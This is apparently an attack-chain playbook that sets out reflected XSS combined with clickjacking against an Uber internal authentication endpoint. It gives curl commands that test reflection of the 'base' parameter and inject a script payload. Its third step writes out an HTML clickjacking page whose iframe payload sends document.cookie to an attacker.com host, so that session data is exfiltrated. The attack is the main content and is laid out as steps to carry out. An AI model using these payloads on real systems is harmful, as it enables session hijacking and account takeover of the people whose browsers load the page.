

# Chained Reflected XSS and Clickjacking on Uber Internal Authentication Endpoint

Multi-stage attack chain demonstrating exploitation of unsanitized parameter reflection leading to XSS, facilitated by clickjacking on uberinternal.com subdomains.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Proxy tool like Burp Suite for parameter manipulation

### Target Environment

- Web platform
- Accessible uberinternal.com subdomains
- No specific ports beyond standard HTTP/HTTPS (80/443)

### Initial Access Requirements

- No credentials required; public-facing endpoints
- Network access to target subdomains
- No prior access needed

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-Reflected-XSS-Endpoint]]

**Objective**: Locate the /oidauth/prompt endpoint and confirm the 'base' parameter is reflected without sanitization.

**Instructions**: Navigate to the /oidauth/prompt endpoint on target subdomains like auth.uberinternal.com using a browser or [[commands/curl-basic-request]] to inspect responses:

```bash
curl -G "https://auth.uberinternal.com/oidauth/prompt" --data-urlencode "base=test" -v
```

Examine the HTML response for direct reflection of the 'base' value in the page body.

**Expected Output**: HTML body containing the unsanitized 'base' parameter value.

**Success Indicators**:
- 'base' parameter echoed in response body
- No encoding or escaping observed

### Step 2: Test Reflected XSS Payload
procedure: [[procedures/Test-Reflected-XSS-Payload]]

**Objective**: Inject and confirm execution of a JavaScript payload via the reflected 'base' parameter.

**Instructions**: Modify the 'base' parameter with a test payload using [[commands/curl-xss-payload]]:

```bash
curl -G "https://auth.uberinternal.com/oidauth/prompt" --data-urlencode "base=<script>alert('XSS')</script>" -v
```

Load the URL in a browser and interact (e.g., click) to trigger execution; use developer console to verify alert or script run.

**Expected Output**: JavaScript alert or console log upon page load and interaction.

**Success Indicators**:
- Payload executes in browser context
- No CSP or sanitization blocks injection

### Step 3: Exploit Clickjacking to Trigger XSS
procedure: [[procedures/Exploit-Clickjacking-to-Trigger-XSS]]

**Objective**: Use clickjacking to overlay an invisible iframe, tricking users into clicking to activate the XSS payload.

**Instructions**: Create a malicious HTML page with an iframe sourcing the vulnerable endpoint using [[commands/create-clickjacking-page]]:

```bash
cat > clickjack.html << EOF
<!DOCTYPE html>
<html>
<body>
<iframe src="https://auth.uberinternal.com/oidauth/prompt?base=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>" style="opacity:0.5; position:absolute; top:0; left:0; width:100%; height:100%;"></iframe>
<button style="position:absolute; top:100px; left:100px;">Click Me!</button>
</body>
</html>
EOF
```

Host the page and confirm lack of X-Frame-Options allows embedding; test user click to trigger XSS.

**Expected Output**: Invisible iframe loads vulnerable page; click executes payload, sending cookies to attacker.

**Success Indicators**:
- Iframe embeds without frame-busting
- User click triggers XSS execution
- Session data exfiltrated

## Attack Chain Summary

### Key Achievements

1. Identified and confirmed reflected XSS on over 20 subdomains
2. Demonstrated payload execution leading to potential session hijacking
3. Chained with clickjacking to enable non-interactive exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
